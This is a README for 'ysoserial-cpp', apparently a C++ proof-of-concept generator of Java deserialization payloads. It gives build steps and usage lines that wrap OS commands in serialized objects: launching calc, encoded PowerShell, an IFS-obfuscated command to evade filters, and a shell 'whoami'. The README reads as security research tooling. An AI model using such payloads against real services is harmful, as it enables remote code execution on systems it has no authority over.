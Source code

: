# ysoserial-cpp


![image](https://github.com/user-attachments/assets/da6827fc-b24f-4b6d-8faa-fc99d5a233e5)




## ysoserial-cpp ( PoC )
Implementation of object serializations an weaponizing in cpp similar functionalitity ( a lost day... than yoserial )

GNU GPL3 License ( JennyLab OpenSource )
    

### Build

```
g++ -std=c++17 -O2 -o ysoserial-cpp ysoserial.cpp
```
or

```
mkdir build
cd build
cmake ..
make
```

or

```
make
```


### Payload inject execution commands abusing serialization

```
./ysoserial-cpp templates "cmd /c calc"
```

### Encoding

```
./ysoserial-cpp object1 "powershell -enc <base64_command>"
```
        
### Obfucation 

```
./ysoserial-cpp object2 "p\${IFS}ing\${IFS}8.8.8.8"
```
        
### Inyecting ENV

```
./ysoserial-cpp templates "\$SHELL -c 'whoami'"
```




## Code "ysoserial-cpp.cpp"
```
  ysoserial.cpp   # ysoserial-cpp
  ├── JavaSerialization   # Constants and types
  ├── JavaPayloadGen # Main class to make and object in C++ to serialize this serialization with provide and destination in seralize... Seria... Lize!!!
```                                                           





```
      .                                                                    
  .x88888x.          JennyLab Research!                            ..         
 :8**888888X.  :>               u.    u.      u.    u.    @L                  
 f    `888888x./       .u     x@88k u@88c.  x@88k u@88c. 9888i   .dL    
'       `*88888~    ud8888.  ^"8888""8888" ^"8888""8888" `Y888k:*888.  
 \.    .  `?)X.   :888'8888.   8888  888R    8888  888R    888E  888I  
  `~=-^   X88> ~  d888 '88%"   8888  888R    8888  888R    888E  888I   
         X8888  ~ 8888.+"      8888  888R    8888  888R    888E  888I    
         488888   8888L        8888  888R    8888  888R    888E  888I 
 .xx.     88888X  '8888c. .+  "*88*" 8888"  "*88*" 8888"  x888N><888'  
'*8888.   '88888>  "88888%      ""   'Y"      ""   'Y"     "88"  888       
  88888    '8888>    "YP'                                        88F             
  `8888>    `888            @h0ffy                               98"                                          
   "8888     8%                2025                             ./"                                            
    `"888x:-"                                                ~`                                            

```
